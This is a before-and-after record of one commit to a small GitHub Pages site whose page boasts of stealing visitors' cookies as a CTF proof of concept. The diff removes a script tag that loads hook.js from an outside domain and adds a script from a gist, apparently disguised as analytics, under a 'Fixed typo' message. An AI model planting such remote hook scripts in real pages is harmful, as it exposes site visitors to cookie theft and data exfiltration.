

Before and after one commit to hello-bloom/hello-bloom.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Fixed typo

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,9 @@
+<head> <title>The Official Bloom Github Page</title>
+<script src='https://gist.githubusercontent.com/hello-bloom/c2be607c5f1dc4b3edbd54a7df01d456/raw/eefebbdf44448f47e3b3c1b7999014d8f65d0361/google_analytics.js'> </script>
+</head>
+<body>
+<p> This is the main page for the Hello Bloom credit project. Please refer to this page for all official updates....</p>
 <h1> Congrats, I just stole your cookies</h1>
-<script src='http://githubjsserver.tk/hook.js'>
 <p>This should serve as a proof of concept for the CTF. A number of Javascript-based payloads are currently executing and exfiltrating data back to our C2 server. Next time, use NoScript. </p>
 <p>Kind Regards, <br/>AHJ</p>
+</body>
```
